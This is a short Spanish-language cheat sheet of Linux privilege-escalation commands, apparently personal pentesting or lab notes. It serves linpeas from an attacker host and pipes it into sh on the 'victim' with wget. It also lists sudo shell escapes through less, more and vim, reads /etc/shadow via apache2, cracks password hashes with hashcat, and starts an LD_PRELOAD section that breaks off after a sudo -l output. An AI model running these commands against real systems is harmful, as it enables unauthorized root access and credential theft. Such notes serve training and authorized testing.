 ```sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh  # Host

python -m http.server 8000 # Host
wget http://{HOST}:{PORT}/linpeas.sh | sh # Victima
```

[gtfobins](https://gtfobins.github.io)

## Escalar privililegios

### Apps

```sh
sudo -l # comprobar que apps van con sudo
```

less

```sh
sudo less /etc/profile
!/bin/bash
```

more

```sh
sudo more /etc/profile
!/bin/bash
```

vim

```sh
sudo vim -c ':!/bin/bash'
```

apache

```sh
sudo apache2 -f /etc/shadow
```

```sh
hashid hash.txt
hashcat -h | grep -i sha512
hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/...
```

### [LD_PRELOAD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd)

```sh
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```
